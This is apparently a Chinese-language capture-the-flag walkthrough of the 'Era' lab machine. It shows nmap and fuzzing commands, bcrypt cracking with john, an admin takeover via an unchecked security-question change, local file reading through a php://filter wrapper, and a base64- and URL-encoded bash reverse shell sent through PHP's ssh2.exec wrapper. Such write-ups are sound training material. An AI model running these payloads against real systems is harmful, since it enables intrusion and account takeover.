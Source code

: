 # Era #
## nmap探测 ##
#### `nmap -sT --min-rate 10000 -p- 10.10.11.79`
![](./Era/1.jpg)

#### `nmap -sT -sC -sV -O -A -p 21,80 10.10.11.79`
![](./Era/2.jpg)

#### 配置hosts绑定域名
#### `echo '10.10.11.79 era.htb' >> /etc/hosts`
## Web探测 ##
#### 浏览器访问era.htb
![](./Era/3-1.jpg)

#### 页面上没找到什么有用的东西，目录爆破一下
#### `gobuster dir -w /usr/share/wordlists/dirb/common.txt --url http://era.htb/  -x php,html -o dir.txt`
![](./Era/3-2.jpg)

#### 也没什么有用的东西，进行子域名爆破
#### `wfuzz -w /usr/share/amass/wordlists/subdomains-top1mil-20000.txt -u era.htb -H "Host:FUZZ.era.htb" --hh 154`
![](./Era/3-3.jpg)

#### 先将file.era.htb绑定到hosts文件，然后浏览器访问
![](./Era/4-1.jpg)

#### 功能都需要登录，也支持安全问题登录
![](./Era/4-2.jpg)

#### 用sql注入试了下登录，失败；用era.htb中发现的三个人名组合字典弱口令爆破也都失败了
#### 目录爆破一下
![](./Era/4.jpg)

### 有注册，注册账号
![](./Era/5.jpg)

#### 登录注册的账号，可以上传文件
![](./Era/6.jpg)

#### 先随便上传点东西看看
![](./Era/6-1.jpg)

#### 上传之后会生成一个下载链接
#### 对生成的链接用sql注入、文件包含、任意文件读取..都测试失败了，最后遍历id发现了有用的东西
#### `wfuzz -z range,1-9999 -u "http://file.era.htb/download.php?id=FUZZ" -H "Cookie: PHPSESSID=smo67vrtegsd05r3drejne6nn7" --hh 7686`
![](./Era/9.jpg)

#### 访问看看
#### 其中一个看起来是网站的备份文件
![](./Era/10.jpg)

![](./Era/11.jpg)

#### 可以正常下载解压，signing包里不知道有什么用
![](./Era/12.jpg)

#### 在备份文件夹中发现是数据库文件filedb.sqlite
![](./Era/13.jpg)

#### 加密方式很眼熟，上个靶场中也用的是这个Bcrypt
#### 使用john破解得到两个用户的密码，可以直接登录系统，但是没发现有用的东西
#### `john --wordlist=/usr/share/wordlists/rockyou.txt users.txt --format=Bcrypt`
![](./Era/14.jpg)

#### 有了源码，看看能不能发现什么漏洞，在download.php中发现这里
![](./Era/18.jpg)

#### 当show=true并且是管理员用户的时候可以利用伪协议读取本地文件
#### 接下来的问题就是怎么登陆管理员用户了，在前面的filedb.sqlite数据库中已经知道到了管理员账号并且有问题答案，但是登录失败了
![](./Era/18-1.jpg)

#### 不过没关系，安全问题的答案可以随便改。登录任意用户，更改安全问题没有校验
![](./Era/18-2.jpg)

#### 更新成功之后再使用安全问题登录管理员（那两个文件就是管理员的）
![](./Era/18-3.jpg)

#### 根据download.php发现的漏洞，进行文件读取

#### `http://file.era.htb/download.php?id=54&show=true&format=php%3A%2F%2Ffilter%2Fconvert.base64-encode%2Fresource%3D%2Fetc%2Fpasswd`
#### 结果就下载下来了一个download.php文件，文件内容
![](./Era/18-4.jpg)

#### web端暂时没什么发现了，看看21号端口
## Ftp探测
#### 用前面发现的yuri账号密码可以直接登录
![](./Era/16.jpg)

#### 分别看下有什么内容

![](./Era/17.jpg)

![](./Era/15.jpg)

#### 有一个ssh2.so的拓展
#### `ssh2.exec://user:pass@example.com:22/usr/local/bin/somecmd`可以执行命令
#### [利用方式参考](https://www.php.net/manual/zh/wrappers.ssh2.php)
#### 反弹shell `bash -i >& /dev/tcp/10.10.16.23/9527 0>&1`
#### 需要使用base64编码，构造之后变成
#### `ssh2.exec://eric:america@127.0.0.1/bash -c 'echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4yMy85NTI3IDA+JjE=|base64 -d|bash';`
#### 再urlencode一次，最终变成
#### `ssh2.exec%3A%2F%2Feric%3Aamerica%40127.0.0.1%2Fbash%20-c%20%27echo%20YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNi4yMy85NTI3IDA%2BJjE%3D%7Cbase64%20-d%7Cbash%27%3B`
#### 执行
![](./Era/21.jpg)

## 提权